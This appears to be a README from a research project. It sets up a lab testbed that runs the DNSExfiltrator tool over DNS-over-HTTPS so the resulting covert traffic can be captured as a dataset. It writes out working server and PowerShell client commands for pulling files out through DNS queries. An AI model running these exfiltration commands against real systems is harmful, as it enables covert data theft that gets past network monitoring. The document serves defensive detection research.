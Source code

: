 # Installation of the testbed network

Please, refer to the PDF file named: "_DNSExfiltrator_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSExfiltrator Server

Run the DNSExfiltrator server side before the client side:

```
# cd DNSExfiltrator
# python dnsexfiltrator.py -d [domain] -p [password]
```

The option _-p [password]_ allow to specify which password use for the encryption of the communication (mandatory).

(**WARNING**: Do not have the same username between client and server for file exfiltration, this does not seem to work)

## DoH proxy on Windows (if you want DoH communication, else go directly to next point about client)

Run the proxy (2 manners):

_In anaconda prompt_:
```
> conda activate DoH_proxyConda
(DoH_proxyConda)> doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

**OR**:

_In Command prompt_:
```
> C:\Users\$USER\anaconda3\condabin\conda.bat run -n DoH_proxyConda doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

## DNSExfiltrator Client (Windows)

In /DNSExfiltrator/ with a powershell:

```
> Import-Module .\Invoke-DNSExfiltrator.ps1
> Invoke-DNSExfiltrator -i [fileToExtract] -d [domain] -p [password] -s [address_where_to_send_dns_requests] -t [delayInMilliseconds]
```

The file extracted is transfered into a zip file but not timestamped.

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSExfiltrator.


# Automated production of dataset with DNSExfiltrator

## C&C communication process with DNSExfiltrator and DoH (automated)

![Testbed network](DNSExfiltrator_testbed_network.png)

All dataset production with DNSExfiltrator is managed from the Windows machine. We run a python script which contact Debian Server machine via SSH using its domain name.

As indicated in the DNSExfiltrator Github documentation (https://github.com/Arno0x/DNSExfiltrator), we first need to run the server side of DNSExfiltrator. This is run as a background task by using the _dtach_ library in the Root account, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code).<br>
Next, we can launch the forked version of a DoH proxy called "_doh-proxy_" (https://github.com/LoicCaudron/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (53) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSExfiltrator is runned by using a powershell script named "_dnsexfiltratorScript.ps1_" which is a self-made Python script and we specify the public IP address of the Windows Client machine and port destination (53) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 53 are mentioned). If all goes well, communication is established and packets are exchanged every time depending of the delay specified.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Windows machine:
    - constants.py
    - dnsexfiltrator_main_insitu.py
    - dnsexfiltratorScript.ps1
    - local_dnsexfiltrator_scenarios.json
    - utils.py
- Put the "_dnsexfiltratorScript.ps1_" in the Documents folder
- Execute the Python script file "_dnsexfiltrator_main_insitu.py_" if you want to run the process with: `$ python dnsexfiltrator_main_insitu.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify the request maximum size to execute and delay between each DNS request.